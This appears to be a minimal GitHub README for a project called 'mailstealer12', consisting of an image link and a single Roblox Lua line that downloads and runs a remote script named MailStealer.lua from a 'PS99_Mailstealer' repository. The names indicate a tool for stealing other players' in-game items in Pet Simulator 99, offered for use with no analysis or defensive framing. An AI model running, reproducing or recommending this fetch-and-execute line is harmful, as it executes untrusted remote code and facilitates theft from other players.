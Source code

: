 # mailstealer12
loadstring(game:HttpGet("https://raw.githubusercontent.com/FlameHub/PS99_Mailstealer/main/MailStealer.lua"))()
